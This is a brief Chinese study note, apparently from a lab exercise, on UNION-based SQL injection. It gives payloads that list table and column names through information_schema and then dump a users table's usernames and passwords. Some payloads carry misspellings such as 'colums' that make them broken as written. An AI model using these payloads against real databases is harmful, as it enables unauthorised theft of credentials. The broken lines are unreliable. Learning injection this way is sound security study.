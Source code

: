 重点 三步的查询
难点 ①对不同数据库的结构不清楚②各种参数的来回变换使用

我们逆着看 最后一步

| USERNAME | PASSWORD |
| -------- | -------- |
| admin    | 123123   |
上面的表名是USERS_XXX
```SQL
' UNION SELECT USERNAME_XXX,PASSWORD_XXX FROM USERS_XXX
```
在这之前我们先看一下MySQL的系统库结构
红色的Oracle的中有所不同的
![[数据库结构.png]]
①在系统库取到表名USERS_XXX
```SQL
' UNION SELECT table_name,NULL FROM  tables--
```
进一步
```SQL
'UNION SELECT table_name FROM information_schema.tables-- 
```
②在系统库取到列名
在系统中取到USERNAME_XXX,PASSWORD_XXX
```SQL
' UNION SELECT column_name,NULL FROM colums  WHERE table_name = 'USERS_XXX'--
```
进一步
```SQL
' UNION SELECT column_name,NULL FROM information_schema.colums  WHERE table_name = 'USERS_XXX'--
```

SELECT 后面接列名，也就是图中的第三级
FROM 后面接表名，也就是图中的第二级，但是前面一般加上information_schame

